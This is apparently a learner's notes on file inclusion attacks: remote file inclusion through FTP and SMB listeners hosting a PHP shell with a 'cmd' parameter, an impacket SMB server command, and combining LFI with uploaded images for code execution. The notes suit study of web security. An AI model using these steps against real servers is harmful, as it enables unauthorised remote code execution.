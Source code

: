         py==ftp==dlib > the ftp protocol
        
        -p > the port ( because we are using python ==not== 3 here )
        
        and also in the maliciouse link that we put in the ? language= < our maliciouse link > but we will start it by the protocol we are using which will be ftp instead of http .
        
          
        
        important note when dealing with ftp we dont say any port except its main port which is 21 for ftp 22 for ssh and in the maliciouse link we dont say the port only the ip because it is a default thing for ftp to be 21 so no need but in our listener we will use in our python listener -p 21 nothing else .
        
          
        
        after doing all that the php will try to authenticate us as an anonymous user . if the server requires valid authentication , then the credentials will be written in this form if we have it ftp:// < instead of directly putting the ip /shell.php&cmd=ls
        
        we will first type the credintials user:pass@ip/shell.php&cmd=ls> and yeah thats it
        
          
        
          
        
          
        
          
        
        ## If the target server is a windows we can do RFI using smb instead of needing allow_url_include
        
        why? > that is because windows treat all files on remote smb servers as normal files which can be referenced directly wiht a unc path
        
          
        
        because windoows is smb 😄
        
        so lets do the RFI via smb but how to start the smb protocol listener ?
        
        we will use
        
        `impacket-smbserver -smb2support share $(pwd)` so this will be the command o
        
          
        
          
        
        ## LFI and File Uploads :
        
        - mainly we are talking about uploading files in the back end server and if we found that the uploaded image here that contains our maliciouse php content we dont have access to excute or display it which may happen alot we will merge the file upload attack with the local file include vulnerabilty to access the php image and execute it .
        - As mentioned in the first section, the following are the functions  
            that allow executing code with file inclusion, any of which would work  
            with this section's attacks:
            
            |   |   |   |   |
            |---|---|---|---|
            |**Function**|**Read Content**|**Execute**|**Remote URL**|
            |**PHP**||||
            |`include()`/`include_once()`|✅|✅|✅|
            |`require()`/`require_once()`|✅|✅|❌|
            |**NodeJS**||||
            |`res.render()`|✅|✅|❌|
            |**Java**||||
            |`import`|✅|✅|✅|
